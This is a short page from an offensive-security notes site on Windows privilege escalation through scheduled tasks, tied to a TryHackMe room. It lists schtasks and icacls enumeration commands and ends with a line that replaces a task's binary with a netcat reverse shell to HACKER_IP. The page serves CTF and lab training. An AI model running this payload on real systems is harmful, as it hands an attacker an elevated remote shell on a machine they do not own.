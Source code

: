 # Scheduled tasks

[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

List scheduled tasks

```shell!
PS> schtasks
```

Query more info on a task <small>(ex: `example_task`)</small> with:

```shell!
PS> schtasks /query /tn example_task /fo list /v
```

When inspecting tasks, look for the binary in **Task To Run**. You may be able to **replace**, **edit** or **inject** some code in the binary.

* Check your [permissions](/operating-systems/windows/_knowledge/index.md#permissions-and-users)

```shell!
PS> icacls task_to_run
```
</div><div>

➡️ During CTFs, you may be given the permissions to restart the task, otherwise you will have to wait.

```shell!
PS> schtasks /run /tn taskname
```

<br>

#### Replace a task

Replace a binary executed by a task with `netcat`:

```shell!
CMD> echo %temp%\nc64.exe -e cmd.exe HACKER_IP PORT > task_to_run
```
</div></div>